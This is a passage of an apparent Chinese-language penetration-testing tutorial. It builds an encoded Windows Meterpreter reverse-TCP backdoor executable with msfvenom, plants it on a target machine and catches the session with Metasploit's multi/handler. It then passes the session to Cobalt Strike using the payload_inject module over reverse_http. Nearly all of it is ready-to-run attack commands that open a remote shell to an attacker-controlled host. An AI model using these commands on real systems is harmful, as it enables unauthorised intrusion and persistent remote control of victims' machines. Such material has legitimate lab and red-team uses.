msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10  -f exe -o payload.exe

把该后门文件payload.exe放入到靶机。

2.3 配置监控并获取meterpreter

启动msf

> msfconsole

创建监控

use exploit/multi/handler

加载payload

set payload windows/meterpreter/reverse_tcp

配置监控参数

show options

set lhost   监控IP

set lport   监控端口

run  执行

	

去靶机执行后门程序 等待返回 meterpreter

2.4 后台当前session

background

## 3 使用CS进行监控

1 加载MSF的payload 注入功能

use exploit/windows/local/payload_inject

2 设置payload

set payload windows/meterpreter/reverse_http

3   查看配置参数

show options

set lhost 设置为cobal strike服务器的ip地址。

set lport 6666设置cs监听端口

set session 1设置cs需要监听的msf会话。

	

设置监控会话

6 set disablepayloadhander true

设置当前msf不接受监听数据

7 run

执行设置

于是CS即可收到msf注入的会话，甚至CS无需添加监听器都能接收到这个msf会话。

	
